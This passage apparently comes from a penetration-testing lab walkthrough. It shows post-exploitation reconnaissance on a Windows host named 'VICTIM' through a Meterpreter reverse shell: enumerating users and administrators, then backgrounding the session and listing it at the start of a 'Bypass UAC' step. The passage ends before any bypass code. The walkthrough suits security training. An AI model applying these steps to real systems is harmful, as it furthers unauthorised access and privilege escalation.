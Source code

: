 * On the Windows target `cmd`

```sh
shell
net users
net localgroup adminstrators
```

```bash
C:\Users\admin\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>net users	
    net users
    
    User accounts for \\VICTIM
    
    -------------------------------------------------------------------------------
    admin                    Administrator            Guest                    
    The command completed successfully.


C:\Users\admin\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>net localgroup administrators
    net localgroup administrators
    Alias name     administrators
    Comment        Administrators have complete and unrestricted access to the computer/domain
    
    Members
    
    -------------------------------------------------------------------------------
    admin
    Administrator
    The command completed successfully.
    
# Yes, "admin" is part of the Administrators group
# but doesn't have administrative privileges through the Meterpreter session

exit
```

### **Bypass UAC**

```bash
background
sessions
```

```bash
Active sessions
===============

  Id  Name  Type                     Information            Connection
  --  ----  ----                     -----------            ----------
  1         meterpreter x64/windows  VICTIM\admin @ VICTIM  10.10.21.5:4444 -> 10.0.22.148:49248 (10.0.22.148)
```
